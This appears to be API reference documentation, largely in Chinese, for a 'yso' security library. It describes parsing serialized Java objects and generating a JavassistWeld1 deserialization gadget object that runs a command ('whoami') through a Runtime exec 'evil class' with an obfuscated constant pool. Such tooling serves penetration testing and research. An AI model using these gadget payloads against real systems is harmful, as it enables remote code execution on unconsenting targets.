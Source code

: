 Example:
```
raw := "rO0..." // base64 Java serialized object
bytes = codec.DecodeBase64(raw)~ // base64解码
javaObject, err := yso.GetJavaObjectFromBytes(bytes) // 从字节中解析Java对象
```


#### 定义

`GetJavaObjectFromBytes(byt []byte) (*JavaObject, error)`

#### 参数
|参数名|参数类型|参数解释|
|:-----------|:---------- |:-----------|
| byt | `[]byte` |   |

#### 返回值
|返回值(顺序)|返回值类型|返回值解释|
|:-----------|:---------- |:-----------|
| r1 | `*JavaObject` |   |
| r2 | `error` |   |


### GetJavassistWeld1JavaObject

#### 详细描述
GetJavassistWeld1JavaObject 基于JavassistWeld1 序列化模板生成并返回一个Java对象。

通过可变参数`options`，用户可以提供额外的配置，这些配置使用GenClassOptionFun类型的函数指定。

这些函数使用户能够定制生成的Java对象的特定属性或行为。

options：用于配置Java对象的可变参数函数列表。

返回：成功时返回生成的Java对象及nil错误，失败时返回nil及相应错误。

Example:
```
command = "whoami"
className = "KEsBXTRS"
gadgetObj,err = yso.GetJavassistWeld1JavaObject(

	yso.useRuntimeExecEvilClass(command), // 使用Runtime Exec方法执行命令
	yso.obfuscationClassConstantPool(),
	yso.evilClassName(className), // 指定恶意类的名称

)
```


#### 定义

`GetJavassistWeld1JavaObject(options ...GenClassOptionFun) (*JavaObject, error)`
